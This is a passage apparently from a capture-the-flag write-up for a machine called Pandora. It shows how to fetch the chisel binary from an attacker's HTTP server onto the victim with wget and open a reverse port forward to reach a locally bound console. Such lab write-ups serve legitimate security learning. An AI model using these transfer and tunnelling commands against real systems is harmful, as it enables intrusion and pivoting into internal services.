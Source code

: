 ![Pandora Console Inaccessible](../imgs/Pandora/pandora_console_inaccessible.png)

Seems like the `/pandora_console` is only accessible locally.

Let's upload a tool named `chisel` to create a port forward and access the local service on our attacking machine.

To upload in a remote machine:

*Attacking machine:*

* Navigate to the directory where `chisel` resides.

* Set up `python` http server.

* `python3 -m http.server [port_of_your_choice]`

*Victim's machine:*

* `wget http://[Attacker_IP]:[listening_port]/chisel; chmod +x chisel`

*Explanation: Attacker sets up python3 http server and downloaded the `chisel` binary and made it executable.*

To create a remote port forward using `chisel`:

*Attacking Machine:*

* `sudo chisel -p [port] -reverse`

*Victim's Machine:*

* `./chisel client [attacker's_ip]:[attacker's_listening_port] R:[victim's_local_port]:127.0.0.1:[victim's_target_port]`

*Explanation: Attacker opens up a listening port to create a reverse proxy and the compromised machine connects back to the attacker's listening port.*
